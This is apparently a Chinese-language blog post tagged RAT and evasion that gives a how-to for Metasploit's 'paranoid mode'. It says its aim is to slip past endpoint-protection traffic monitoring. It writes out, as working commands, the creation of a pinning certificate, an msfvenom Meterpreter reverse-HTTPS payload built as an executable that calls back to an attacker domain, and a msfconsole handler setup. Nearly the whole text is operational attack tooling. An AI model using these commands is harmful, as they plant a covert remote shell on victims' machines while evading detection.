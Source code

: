 ```yaml
---
title: MSF TLS pinning
author: Admin
date: 2020-05-01 14:01:00 +0800
categories: [RAT, MSF]
tags: [流量加密, MSF, 免杀]
---
```


# 开宗明义

利用证书锁定过掉流量监控，例如赛某的端点防护。

rapid7官方将之称为```Paranoid Mode(偏执模式)```，相关wiki：[github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode)

# 创建证书

```shell
openssl req -new -newkey rsa:4096 -days 36500 -nodes -x509 -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" -keyout cert.key -out cert.crt
cat cert.key  cert.crt > cert.pem
rm -f cert.key  cert.crt
```

其中```www.example.com```为回连域名或IP

# 生成payload

```shell
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=www.example.com LPORT=443 PayloadUUIDTracking=true HandlerSSLCert=./cert.pem StagerVerifySSLCert=true PayloadUUIDName=ParanoidStagedPSH -f exe -o ./launch-paranoid.exe
```

支持的payload:

|  Staged (payload.bat\|ps1\|txt\|exe)   |
|  :----  |
| windows/meterpreter/reverse_winhttps  |
| windows/meterpreter/reverse_https  |
| windows/x64/meterpreter/reverse_https  |

|  Stageless (binary.exe)   |
|  :----  |
| windows/meterpreter_reverse_https  |
| windows/x64/meterpreter_reverse_https  |


# 设置监听

```shell
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_winhttps
set LHOST www.example.com
set LPORT 443
set HandlerSSLCert ./cert.pem
set IgnoreUnknownPayloads true
set StagerVerifySSLCert true
set exitonsession false
run -j -z
```